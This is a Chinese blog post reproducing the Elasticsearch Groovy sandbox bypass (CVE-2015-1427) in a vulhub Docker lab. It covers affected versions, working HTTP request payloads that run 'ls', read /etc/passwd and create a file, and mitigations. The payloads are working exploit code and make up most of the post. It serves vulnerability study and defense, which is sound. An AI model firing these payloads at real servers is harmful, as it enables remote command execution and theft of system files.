


# 漏洞复现-ElasticSearch Groovy 沙盒绕过 && 代码执行漏洞（CVE-2015-1427） - Sally_Zhang - 博客园

> 原文：[`www.cnblogs.com/sallyzhang/p/12468669.html`](https://www.cnblogs.com/sallyzhang/p/12468669.html)

**漏洞原理**

和 3210 的漏洞很像，也是恶意代码执行漏洞，3210 是执行任意 MVEL 表达式和 java 代码，3210 之后 MVEL 表达式被弃用，ES 的动态脚本语言换成了 Groovy(而且增加了 sandbox)，然额换成 Groovy 之后仍然存在恶意代码执行漏洞（ES：我好难，2333...）

**复现环境**

在 ubuntu 16.04 虚拟机中用 vulhub 靶场提供的 docker 容器来复现

jdk 版本 1.7

ElasticSearch 版本 1.4.2

**影响版本**

Elasticsearch 1.3.0-1.3.7 和 1.4.0-1.4.2 

**复现过程**

像 3210 那样先增加一条数据，再调用 _search 接口。

执行 java 代码（为啥可以直接执行 java 代码？因为 ES 是用 java 开发的！）


```
POST /_search?pretty HTTP/1.1 Host: 192.168.101.10:9200 Accept: */* Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/text
Content-Length: 156

{"size":1, "script_fields": {"lupin":{"lang":"groovy","script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"ls\").getText()"}}}
```

View Code



网上找的读取文件的 POC：


```
POST /_search?pretty HTTP/1.1 Host: 192.168.101.10:9200 Accept: */* Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/text
Content-Length: 425

{"size":1, "script_fields": {"lupin":{"lang":"groovy","script":"java.lang.Math.class.forName(\"java.io.BufferedReader\").getConstructor(java.io.Reader.class).newInstance(java.lang.Math.class.forName(\"java.io.InputStreamReader\").getConstructor(java.io.InputStream.class).newInstance(java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"cat /etc/passwd\").getInputStream())).readLines()","lang":"groovy"}}}
```

View Code



也可以直接执行 Goovy 代码(Goovy 也是一门独立的语言)：

参考：[`github.com/elastic/elasticsearch-lang-groovy`](https://github.com/elastic/elasticsearch-lang-groovy)


```
GET /_search?pretty HTTP/1.1 Host: 192.168.101.10:9200 User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:73.0) Gecko/20100101 Firefox/73.0 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 124

{"script_fields": {"my_field": {"script": "def command=\"touch evil\";def res=command.execute().text;res","lang":"groovy"}}}
```

View Code


进入 dokcer 容器查看文件是否创建成功，使用之前进入 docker 容器的命令：

```
docker-compose exec 容器名 bash 

```

结果报错：No such service（ES 的这几个容器都会报这个错，我也不知道为啥。。。），好吧，换一个命令：

```
docker exec -it 容器 id /bin/sh

```

成功进入容器：


**防御方法**

1.elasticsearch.yml 配置 script.groovy.sandbox.enabled: false

2.升级版本

**本文仅用于技术学习和交流，严禁用于非法用途，否则产生的一切后果自行承担。**